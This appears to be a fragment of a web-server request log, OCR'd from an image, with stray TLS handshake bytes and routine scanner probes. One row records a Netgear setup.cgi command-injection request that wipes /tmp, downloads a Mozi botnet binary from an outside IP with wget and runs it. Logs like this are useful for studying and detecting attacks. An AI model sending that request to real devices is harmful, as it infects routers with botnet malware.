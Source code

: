 | 208 |                     1 | \x16\x03\x01\x00\xFC\x01\x00\x00\xF8\x03\x03\x8B\xED\x0B\x0EsN\x83J\x1D\x83\xBA\xF7\xBF60)\x8C\xCA\x12\xCE\xA2kQ\xD2D\xC3                                                                                                                                                                                                                                                                                                    |
| 209 |                     1 | \x16\x03\x01\x00\xFC\x01\x00\x00\xF8\x03\x03*m9\x15Q\x98\x81T\xCE\xD4\xEF\x15\xFD\xCB\x82H7\xBC\xBB~\xDDR8\x1DdU6qsf,\x15 \xE0\xB3\xFC\x850                                                                                                                                                                                                                                                                                  |
| 210 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03k\x0E>\xDFJ\x01w\x15\xFA*p\xD1=\xD8\x86\xC9D:c\xCA2(\xCDo\xBAa\xA2;\xD9\xCB6\xAA\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                                     |
| 211 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03#\x7F\x99\x89$\x80\xE3\xF3\xBC\xA7p\xEA\xAF\x82'=\xBF\xE2q\xC1\xCE\x88\x7F\xF7\x9F\xD4\xCC<m\xE8\x0E#\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                |
| 212 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\x85\x9A\xAE\xDD\x82\xC8l\x22A\x04c\xA1!3\xC2\xEDt\x0B]\xE0\x03fv}=Z\xB3#\xC8\x99]\x1A\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                               |
| 213 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03~\xB1\xF3\x84\x92\xD1                                                                                                                                                                                                                                                                                                                                                                  |
| 214 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03d\x22\xB6\x96\xA1                                                                                                                                                                                                                                                                                                                                                                      |
| 215 |                     1 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://103.199.180.9:34484/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                                                                                                                 |
| 216 |                     1 | GET /users/users/users/favicon.ico HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                  |
| 217 |                     1 | GET /ads.txt HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                        |
| 218 |                     1 | OPTIONS rtsp://xxx.xxx.xxx.xxx:80 RTSP/1.0                                                                                                                                                                                                                                                                                                                                                                                   |
| 219 |                     1 | GET /wp-content/plugins/fluent-smtp/assets/images/logo.svg HTTP/1.1                                                                                                                                                                                                                                                                                                                                                          |
| 220 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\x13\xDBw:P\xDAv/\x8B                                                                                                                                                                                                                                                                                                                                                                  |
